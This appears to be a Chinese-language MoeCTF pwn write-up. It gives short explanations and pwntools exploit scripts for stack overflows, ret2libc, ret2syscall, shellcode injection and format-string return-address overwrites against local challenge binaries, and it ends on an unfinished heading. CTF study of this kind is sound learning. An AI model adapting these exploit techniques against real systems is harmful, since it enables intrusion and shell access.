

# Moectf
# test_nc
了解了 nc 指令，在不使用 pwntools 的 remote 命令连接靶机时可以用。直接连接靶机更方便。

# baby_calculater
完成 100 次算式校验就行，顺便学了一下 python 的正则匹配来简化代码。
#!/usr/bin/python3 | |
from pwn import * | |
import re | |
p=remote('localhost','34599') | |
context(log_level='debug') | |
p.recvuntil(b'start!') | |
while(1): | |
p.recvuntil('\n') | |
p.recvuntil('\n') | |
str=p.recv().decode('utf-8') | |
lst = re.findall(r'\d+', re.search(r'\d+[+]\d+[=]\d+', str).group()) | |
if int(lst[0])+int(lst[1])==int(lst[2]): | |
p.sendline('BlackBird') | |
else: | |
p.sendline('WingS') | |
# sleep(0.5) | |
p.interactive() |

# fd
题目提到 fd（file descriptor) 以及源码中有 dup2 函数，是新知识，便查了一下。

打开文件会创建一个文件描述符 fd，指向该文件（可以多个 fd 指向同一文件）。dup2 的用途就是将作为第二个参数的 fd 重定向为第一个参数所指文件。
dup (oldfd) 则是创建一个新的 fd 指向原 fd 所指文件。
fd 本质是从 0 到 OPEN_MAX-1 的整数。0 为标准输入，1 为标准输出，2 为错误输出。创立新 fd 时，会在 files_struct 数组当中，找到当前没有被使用的最小的一个下标，作为新的文件描述符。
文件描述符分配
文件描述符由来
该程序打开 flag 文件所分配的 fd 应为 3。那么该程序中 new_fd 的值应该为 3<<4 | 0x29A，即为 670.

后面程序中将获取的输入作为 fd 进行读取，因此输入 670 即可获得 flag。

# int_overflow
不允许输入符号，输入值为 - 114514 得 flag，在 64 位整数下输入 - 114514 然后将高位全部清 0 即可

# ret2text_32
基础
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./pwn1') | |
p=remote('localhost',38079) | |
offset = 0x58 + 4 | |
offset = 92 | |
binsh = 0x0804C02C | |
sys = 0x080492a9 | |
vln = 0x08049213 | |
p.recvuntil(b'age?') | |
p.sendline('200') | |
p.recvuntil(b'flow!') | |
payload = b'a'*offset + p32(sys) + p32(binsh) + p32(vln) | |
p.sendline(payload) | |
p.interactive() |
# ret2text_64
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p = process ('./1') | |
p=remote ('localhost',35035) | |
rdi_ret = 0x04011be | |
sys = 0x04012b7 | |
binsh = 0x0404050 | |
offset=0x50+0x8 | |
payload=b'a'*offset + p64(rdi_ret) + p64(binsh) + p64 (sys) | |
p.recvuntil(b'age?') | |
p.sendline('200') | |
p.recvuntil (b'flow!') | |
p.sendline(payload) | |
p.interactive() |
# shellcode_level0
#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='amd64') | |
p=remote('localhost',34683) | |
#p=process('./shellcode_level0') | |
sh=shellcraft.sh() | |
print(type(sh)) | |
payload = asm(sh) | |
print(payload) | |
p.sendline(payload) | |
p.interactive() |
# shellcode_level1
之前不知道设置 context，所以 64 位的 ret2shellcode 一直写不出
#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='amd64') | |
p=remote('localhost',35885) | |
#p=process('./shellcode_level1') | |
sh=shellcraft.sh() | |
payload = asm(sh) | |
p.sendline(b'4') | |
p.sendline(payload) | |
p.interactive() |
# format_level0
一眼 printf 漏洞，但是泄露 flag 后处理编码问题突然有点转不过来了。
read 读入 flag 内容放入栈中，以 bytes 形式储存在栈中。设 str 为 % c% c 串应该可以直接输出，但可能因为函数调参只能 4 字节的调，所以每 4 字节漏 3 个。
因此以 % x 链输出内存，然后 bytes 的格式打印出内存内容。需要先转换成 16 进制的数字，然后用 p32 函数再转回正常的 bytes 字节。

#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p= process('./format_level0') | |
p = remote('localhost', 38269) | |
#gdb.attach(p, 'b printf') | |
#payload = b'aa%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c' | |
payload = b'aa%x%x%x%x%x%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x' | |
print(len(payload)) | |
p.recv() | |
p.send(payload) | |
p.recvuntil(b'is: ') | |
str = p.recv() | |
lst = str.split(b'-')[1:] | |
print(lst) | |
for i in lst: | |
str = b'' | |
tmp = p32(int(i,16)) | |
print(tmp.decode(), end='') | |
str += tmp | |
print(str) |
# PIE_enabled
#!/usr/bin/python3 | |
from pwn import * | |
p=process('./PIE_enabled') | |
p=remote('localhost','43479') | |
context(log_level='debug') | |
p.recvuntil(b'address is:') | |
ptr = int(p.recv(),16) | |
print(ptr) | |
binsh=0x4010 | |
sys=0x11d8 | |
rdi_ret = 0x1323 | |
vuln = 0x1245 | |
def cg(x): | |
tmp = ptr - vuln | |
return tmp+x | |
offset = 0x50 + 8 | |
payload = b'a'*offset + p64(cg(rdi_ret)) + p64(cg(binsh)) + p64(cg(sys)) + p64(ptr) | |
p.send(payload) | |
p.interactive() |
# ret2libc
套模板，泄露地址后计算偏移
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(log_level='debug') | |
p=remote('localhost',35995) | |
#p=process('./ret2libc') | |
#gdb.attach(p,'b *0x0') | |
e = ELF('./ret2libc') | |
puts_p = e.plt['puts'] | |
lsm_g = e.got['__libc_start_main'] | |
puts_g = e.got['puts'] | |
offset = 0x050 + 8 | |
main_a = e.sym['main'] | |
exit_a = main_a | |
prdi = 0x040117e | |
ret = 0x040101a | |
def ready(): | |
p.recvuntil(b'help u??\n\n') | |
pass | |
ready() | |
payload = offset * b'a' + p64(prdi) + p64(lsm_g) + p64(puts_p)+ p64(main_a) | |
p.sendline(payload) | |
lsm_a = u64(p.recvuntil('\n')[:-1].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
#''' | |
libc = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - libc.dump('__libc_start_main') | |
sys_a = libcbase + libc.dump('system') | |
bs_a = libcbase + libc.dump('str_bin_sh') | |
''' | |
libc = ELF('./libc-2.23.so') | |
libcbase = lsm_a - libc.sym['__libc_start_main'] | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
''' | |
ready() | |
payload = offset * b'a' + p64(ret) + p64(prdi) + p64(bs_a) + p64(sys_a) + p64(exit_a) | |
p.send(payload) | |
p.interactive() | |
p.close() |
# ret2syscall
网上关于 ret2syscall 的资料非常少，大部分都是 32 位的，而且抄来抄去的。整理理解完，原理如下。
系统调用其实就是当汇编指令为 int 0x80（32 位）或者 syscall（64 位）时，cpu 将中断运行，并执行系统调用号对应的函数。而系统调用号需事先储存在 eax 或 rax。
32 位需将参数依次放入 ebx，ecx，edx。而 64 位与原先一致，即 rdi, rsi, rdx。
未开启沙盒下，可以构造如下函数直接 getshell
execve("/bin/sh",NULL,NULL); //字符串地址,0,0
可用如下指令查看 64 位程序中 syscall 的地址
ROPgadget --binary ret2syscall --only 'syscall' |

#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('localhost',38659) | |
#p=process('./ret2syscall') | |
#gdb.attach(p,'b *0x0') | |
sc = 0x0401185 | |
binsh = 0x0404040 | |
p_rax = 0x040117e | |
p_rdi = 0x0401180 | |
p_rsi_rdx = 0x0401182 | |
offset = 0x040 + 8 | |
payload = offset * b'a' + p64(p_rdi) + p64(binsh) + p64(p_rax) + p64(0x3b) + p64(p_rsi_rdx) + p64(0) + p64(0) +p64(sc) | |
print(len(payload)) | |
p.send(payload) | |
p.interactive() | |
p.close() |
# shellcode_level2
无法编译，直接看汇编。
memset 会清空输入。
jz short loc_1250 可以直接跳到执行 shellcode 的命令。而该指令在 ZF=0 时生效。
test al, al 为对两数进行位与，结果为 0 时，ZF 为 0，否则为 1。al 来源于 rax 低 8 位，rax 来源于 s 字符串首位，因此将字符串首位设置为 0 即可跳过 menset。
test 用法
#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='amd64', log_level='debug') | |
p=remote('localhost',38393) | |
#p=process('./shellcode_level1') | |
sh=shellcraft.sh() | |
payload = b'\0'+ asm(sh) | |
p.sendline(payload) | |
p.interactive() |
# format_level1
% x$n 的运用，x 为任意数
#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='amd64', log_level='debug') | |
p=remote('localhost',45851) | |
#p=process('./format_level1') | |
#gdb.attach(p,'b printf') | |
def ready(x): | |
p.recvuntil(b'Your choice: ') | |
p.sendline(str(x).encode()) | |
hp = 0x804C00C | |
ak = 0x0804C014 + 4 | |
ready(3) | |
payload = p32(hp) + b'%7$n' | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
ready(3) | |
payload = p32(ak) + b'%7$n' | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
ready(1) | |
p.interactive() |
# 第二次
# uninitialized_key
两次调用函数，name 和 key 局部变量分配的栈位置是一致的，且 key 变量未清零，所以设 name 为 114514，key 变量输入非数字符号使 scanf 无作用，便可使 key 依然保持 114514 的值。

# uninitialized_key_plus
同理，只是这题前者函数输入的是字符串，因此利用 pwntools 工具的 p32 即可。

#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p = remote('localhost', 42705) | |
#p = process('./uninitialized_key_plus') | |
payload = b'a'*0x14 + p32(114514) | |
p.sendline(payload) | |
p.recvuntil(b'key:\n') | |
p.sendline(b'a') | |
p.interactive() |
# rePWNse
能修改 v7 到 v13 的值，满足所有 if 的条件，使得 s 为字符串’/bin/sh’，否则 s 内会存在随机字符。
v10*v8==10*v11+v12; // a*a = 10*(a-b) + v12
v12==v13+1; //
//src[v8]需为/bin/sh的第三个字符'i'，所以a=9
v8==v10; // a
//src[v13]需为第5个字符'/'，v13=0
v7==v9; //b
v10-v11==v7; //v11 = a-b
/* 因此
a=9 v13=0
v12 = 1
9*9 = 81 = 10*(9-b) + 1
b = 1
v7-v13应为
1 9 1 9 8 1 0
*/
随后利用栈溢出和后门函数。
#!/usr/bin/python3
from pwn import *
context(log_level='debug')
#p = process('./rePWNse')
p =remote('localhost',41225)
p.recvuntil(b'digits:\n')
p.sendline(b'1 9 1 9 8 1 0')
p.recvuntil(b'address is:')
binsh = int(p.recvuntil(b'\n')[:-1].decode(),16)
print(hex(binsh))
rdi_ret = 0x40168e
exe = 0x401296
offset = 0x40 + 8
payload = b'a'*offset + p64(rdi_ret) + p64(binsh) + p64(exe)
p.send(payload)
p.sendline(b'cat flag')
print(p.recv())
p.interactive()
# format_level2
这次 attack 函数内不再跳转后门函数，因此该函数失去价值。
这时利用 hijack retaddr，修改返回地址指向攻击函数。
因为输入限制 16 字节，不能做到一次性修改，所以分成 4 次，% hn 每次修改一个字节，最终修改完四字节。
因为多次调用函数，所以选择修改 game 函数的返回地址，利用 printf 先泄露一个栈上地址，然后根据偏移计算出目标地址。

泄露 printf 函数第二个参数的内容，即指向字符串的地址，计算与 game 函数返回地址储存位置的偏移。0xffa438fc-0xffa438bc = 0x40.
#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='amd64', log_level='debug') | |
p=remote('localhost',42385) | |
#p=process('./format_level2') | |
#gdb.attach(p,'b *0x0804974c') | |
def ready(x): | |
p.recvuntil(b'Your choice: ') | |
p.sendline(str(x).encode()) | |
def fmt(addr, target): | |
target -= 4 | |
payload = p32(addr) + b'%' + str(target).encode() + b'd%7$hn' | |
assert len(payload) <= 16 | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
def fmth(addr, target): | |
target -= 4 | |
payload = p32(addr) + b'%' + str(target).encode() + b'd%7$hhn' | |
assert len(payload) <= 16 | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
gadget = 0x08049317 | |
ready(3) | |
payload = b'%p\n' | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
p.recvuntil(b'You said: \n') | |
addr = int (p.recvuntil(b'\n')[:-1],16) | |
ret_addr = addr + 0x40 | |
P = p32(ret_addr) + b'%' +str(gadget).encode()+b'd%7$n' | |
ready(3) | |
fmt(ret_addr, 0x17) | |
ready(3) | |
fmt(ret_addr+1, 0x93) | |
ready(3) | |
fmth(ret_addr+2, 0x804) | |
ready(4) | |
p.interactive() |
# format_level3
这次字符串 str 不再位于栈中，而是作为全局变量位于 bss 段上，因此无法在字符串中写入要修改内存的地址以达到修改指定地址的目的。这时选择利用栈中已有地址进行跳板修改。
ebp 地址是连锁的，所以可以利用其先修改栈上地址使其指向栈上返回地址，之后再修改栈上返回地址指向后门函数。

printf 第 7 个参数为 0xff894538 处的 0xff894558，%6$n 则会修改 0xff894558 处的值，将其修改为 0xff89455c。
0xff894558-0xff894520 = 0x38 ，第 15 个参数位于 0xff894558, %14$n 会修改 0xff89455c 处的值，将其修改为后门函数地址。即可实现攻击。
#!/usr/bin/python3 | |
from pwn import * | |
#context(os='linux', arch='amd64', log_level='debug') | |
#p=remote('localhost',35397) | |
p=process('./format_level3') | |
#gdb.attach(p,'b printf') | |
def ready(x): | |
p.recvuntil(b'Your choice: ') | |
p.sendline(str(x).encode()) | |
def fmt(offset, target): | |
print('offset ',hex(offset)) | |
print('target ',hex(target)) | |
payload = b'%' + str(target).encode() + b'd%'+ str(offset).encode() + b'$n' | |
print(payload, len(payload)) | |
assert len(payload) <= 16 | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
def fmth(offset, target): | |
print('offset ',hex(offset)) | |
print('target ',hex(target)) | |
payload = b'%' + str(target).encode() + b'd%'+ str(offset).encode() + b'$hhn' | |
print(payload, len(payload)) | |
assert len(payload) <= 16 | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
gadget = 0x08049317 | |
#first_offset = ( 0xffffcf68 - 0xffffcf50 ) //4 | |
#ret_addr = addr + 0xffffcf8c - 0xffffcf54 | |
#second_offset = (0xffffcf8c - 0xffffcf50) //4 | |
first_offset = ( 0xff894538 -0xff894520) //4 | |
second_offset = (0xff894558 - 0xff894520) //4 | |
ready(3) | |
payload = b'%'+ str(first_offset).encode() + b'$p\n' | |
p.recvuntil(b'Input what you want to talk: ') | |
p.send(payload) | |
p.recvuntil(b'You said: \n') | |
addr = int (p.recvuntil(b'\n')[:-1],16) | |
print('addr',hex(addr)) | |
ret_addr = addr + 0xff89455c - 0xff894558 | |
sleep(1) | |
ready(3) | |
fmth(first_offset, ret_addr&0xffff) | |
print('ret_addr ',hex(ret_addr)) | |
sleep(1) | |
ready(3) | |
fmt(second_offset, gadget) | |
sleep(1) | |
#ready(3) | |
#fmth(second_offset, gadget>>16) | |
ready(4) | |
sleep(1) | |
p.interactive() |

# shellcode_level3

偏移